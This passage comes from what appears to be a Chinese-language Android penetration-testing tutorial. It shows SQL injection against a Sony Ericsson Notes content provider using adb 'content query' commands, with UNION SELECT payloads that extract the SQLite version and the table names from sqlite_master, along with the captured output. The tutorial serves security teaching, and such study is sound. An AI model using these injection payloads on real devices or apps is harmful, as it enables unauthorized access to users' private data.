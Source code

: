 $ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,sqlite_version(),6,7,8,9,10,11,12,13,14-- ("

```

我们已将编号`5`替换为`sqlite_version()`。事实上，您可以替换任何数字，因为所有数字都会被回显。

运行上一个命令将显示 SQLite 版本信息，如下所示：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,sqlite_version(),6,7,8,9,10,11,12,13,14-- ("

Row: 0 isdirty=1, body=2, account_id=3, voice_path=4, doodle_path=3.7.11, deleted=6, modified=7, sync_uid=8, title=9, meta_info=10, _id=11, created=12, background=13, usn=14
Row: 1 isdirty=1, body=test note_1, account_id=1, voice_path=, doodle_path=, deleted=0, modified=1062246014, sync_uid=NULL, title=No title, meta_info=
false
0, _id=1, created=1062246014, background=com.sonyericsson.notes:drawable/notes_background_grid_view_1, usn=0
$

```

正如您在之前的摘录中所看到的，3.7.11 是安装的 SQLite 版本。

### 查表名

为了检索表名，我们可以修改前面的查询，将`sqlite_version()`替换为`tbl_name`。另外，我们需要从`sqlite_master`数据库中查询表名。`sqlite_master`与`MySQL`数据库中的`information_schema`类似。它保存数据库的元数据和结构。

修改后的查询如下所示：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,tbl_name,6,7,8,9,10,11,12,13,14 from sqlite_master-- ("

```

这将为我们提供如下输出所示的表名：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,tbl_name,6,7,8,9,10,11,12,13,14 from sqlite_master-- ("

Row: 0 isdirty=1, body=2, account_id=3, voice_path=4, doodle_path=accounts, deleted=6, modified=7, sync_uid=8, title=9, meta_info=10, _id=11, created=12, background=13, usn=14
Row: 1 isdirty=1, body=2, account_id=3, voice_path=4, doodle_path=android_metadata, deleted=6, modified=7, sync_uid=8, title=9, meta_info=10, _id=11, created=12, background=13, usn=14
Row: 2 isdirty=1, body=2, account_id=3, voice_path=4, doodle_path=notes, deleted=6, modified=7, sync_uid=8, title=9, meta_info=10, _id=11, created=12, background=13, usn=14
Row: 3 isdirty=1, body=test note_1, account_id=1, voice_path=, doodle_path=, deleted=0, modified=1062246014, sync_uid=NULL, title=No title, meta_info=
false
0, _id=1, created=1062246014, background=com.sonyericsson.notes:drawable/notes_background_grid_view_1, usn=0
$
